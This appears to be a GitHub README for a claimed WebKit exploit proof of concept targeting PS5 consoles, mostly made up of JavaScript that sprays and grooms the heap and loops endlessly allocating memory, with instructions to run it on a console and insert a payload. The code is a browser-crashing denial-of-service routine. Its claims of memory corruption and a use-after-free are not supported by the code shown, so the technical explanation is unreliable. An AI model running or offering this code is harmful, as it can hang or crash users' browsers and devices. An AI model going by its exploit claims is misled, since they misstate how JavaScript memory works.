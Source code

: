 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Leak PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


**A Message to Sony**


Sony I have reported this and got dismmised and I have provided enough proof plus with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 

## heap memory exploit code
```
function memmexh() {
        while (true){
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;

        // Simulate freeing the object
        obj = null;

        
    }
    }
function ComplexOverflow() {
    let largeString = "A".repeat(1000000); // 1 million A's
    let bufferArray = [];
    let nestedArray = [];
    let obj = {};
    let counter = 0;
    let counterr = 0;

    while (true) {

        
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) {
            largeString = "A".repeat(1000000);
        }

        // Array buffer allocation
        bufferArray.push(new ArrayBuffer(1000000));
        if (bufferArray.length > 1000) {
            bufferArray = [];
        }

        // Nested arrays
        nestedArray.push([]);
        if (nestedArray.length > 1000) {
            nestedArray = [];
        }

 
        counterr++;
        if (counterr >= 100) {
            location.reload();
        }
        // Object property expansion
        obj[counter] = "A".repeat(1000);
        counter++;
        if (counter > 10000000) {
            obj = {};
            counter = 0;
        }
    }
}










let MTestClassesArray = [];

class MTestClass {
    constructor() {}
}

const create_1000_objects = () => {
    let counter = 0;
    memmexh()
    while (true) {
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;

        console.log("Before freeing:", ref.data); // Output: important data

        // Simulate freeing the object
        obj = null;

        try {
            // Attempt to use the reference after the object is "freed"
            console.log("After freeing:", ref.data); // This should fail in a true use-after-free
        } catch (e) {
            console.log("Error:", e.message); // Catch any errors
        }
    
        counter++;
        if (counter >= 500) {
            location.reload();
        }
        for (let i = 0; i < 1000; i++) {
            MTestClassesArray.push(new MTestClass());
        }
        const text = `Total ${MTestClassesArray.length} MTestClass objects created`;
        document.getElementById('divMsg').innerHTML = text;
    }
}
```
